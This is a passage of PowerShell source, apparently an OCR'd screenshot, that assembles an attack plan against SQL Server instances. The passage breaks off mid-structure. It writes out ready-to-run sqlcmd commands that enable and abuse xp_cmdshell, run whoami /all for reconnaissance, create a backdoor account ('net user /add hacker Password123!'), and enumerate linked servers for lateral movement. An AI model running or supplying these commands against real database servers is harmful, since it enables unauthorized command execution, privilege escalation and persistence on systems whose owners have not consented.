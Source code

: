 ```powershell
                    Command = "sqlcmd -S $($instance.FullInstanceName) -Q \"EXEC xp_cmdshell 'whoami'\""
                    Risk = "High - Direct command execution"
                }
            }
            
            if ($instance.DatabaseLinks.Count -gt 0) {
                $attackPlan.ImmediateAttacks += @{
                    Instance = $instance.FullInstanceName
                    AttackType = "Database Link Abuse"
                    Description = "Abuse database links for lateral movement"
                    Tool = "sqlcmd.exe"
                    Command = "sqlcmd -S $($instance.FullInstanceName) -Q \"SELECT * FROM [LINK_NAME].[master].[sys].[servers]\""
                    Risk = "High - Lateral movement"
                }
            }
        }
        
        # Plan privilege escalation paths
        foreach ($attack in $attackPlan.ImmediateAttacks) {
            if ($attack.AttackType -eq "xp_cmdshell Abuse") {
                $attackPlan.EscalationPaths += @{
                    Step = 1
                    Action = "Enable xp_cmdshell if disabled"
                    Tool = "sqlcmd.exe"
                    Command = "sqlcmd -S $($attack.Instance) -Q \"sp_configure 'show advanced options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE\""
                    ExpectedResult = "xp_cmdshell enabled"
                }
                
                $attackPlan.EscalationPaths += @{
                    Step = 2
                    Action = "Execute reconnaissance commands"
                    Tool = "sqlcmd.exe"
                    Command = "sqlcmd -S $($attack.Instance) -Q \"EXEC xp_cmdshell 'whoami /all'\""
                    ExpectedResult = "User and group information"
                }
                
                $attackPlan.EscalationPaths += @{
                    Step = 3
                    Action = "Execute privilege escalation commands"
                    Tool = "sqlcmd.exe"
                    Command = "sqlcmd -S $($attack.Instance) -Q \"EXEC xp_cmdshell 'net user /add hacker Password123!'\""
                    ExpectedResult = "New user account created"
                }
            }
            
            if ($attack.AttackType -eq "Database Link Abuse") {
                $attackPlan.EscalationPaths += @{
                    Step = 1
                    Action = "Enumerate linked servers"
                    Tool = "sqlcmd.exe"
                    Command = "sqlcmd -S $($attack.Instance) -Q \"SELECT name, data_source FROM sys.servers WHERE is_linked = 1\""
                    ExpectedResult = "List of linked servers"
                }
                
                $attackPlan.EscalationPaths += @{
                    Step = 2
                    Action = "Test linked server access"
                    Tool = "sqlcmd.exe"
```